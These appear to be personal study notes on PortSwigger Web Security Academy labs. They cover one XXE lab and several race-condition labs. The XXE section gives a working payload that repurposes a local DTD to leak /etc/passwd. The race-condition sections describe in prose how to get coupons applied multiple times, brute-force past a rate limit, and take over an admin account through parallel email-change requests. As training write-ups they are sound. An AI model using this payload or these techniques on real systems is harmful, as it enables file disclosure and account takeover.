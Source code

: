 Lab 10: Exploiting XXEhttps://portswigger.net/web-security/xxe to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

Technique:
`<!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>`
This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.

Race Condition :

Race conditions are a common type of vulnerability closely related to business [logic flaws](https://portswigger.net/web-security/logic-flaws). They occur when websites process requests concurrently without adequate safeguards. This can lead to multiple distinct threads interacting with the same data at the same time, resulting in a "collision" that causes unintended behavior in the application. A race condition attack uses carefully timed requests to cause intentional collisions and exploit this unintended behavior for malicious purposes.

Lab 1: Limit Overrun race conditions.
This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

Technique:
Log in and buy the cheapest item possible, making sure to use the provided discount code so that you can study the purchasing flow.

We are here just sending multiple coupon request in a parallel way its attacks the race window(validation checks) and the result is coupon applied multiple times for that product.

Lab 2: # Bypassing rate limits via race conditionshttps://portswigger.net/web-security/race-conditions

This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

Technique:
	In this lab we are brute forcing the password of the user against the rate limiting mechanism with the help of a turbo intruder. Once we got the credentials we can delete the carlos account.
	
Lab 4:  Single-endpoint race conditionshttps://portswigger.net/web-security/race-conditions
This lab's email change feature contains a race condition that enables you to associate an arbitrary email address with your account.

Someone with the address `carlos@ginandjuice.shop` has a pending invite to be an administrator for the site, but they have not yet created an account. Therefore, any user who successfully claims this address will automatically inherit admin privileges.

Technique:
`POST /my-account/change-email` using this request we sending multiple email change request using this behaviour we are mixing up the email token for the other user email and we can takeover the admin account to delete the carlos account.
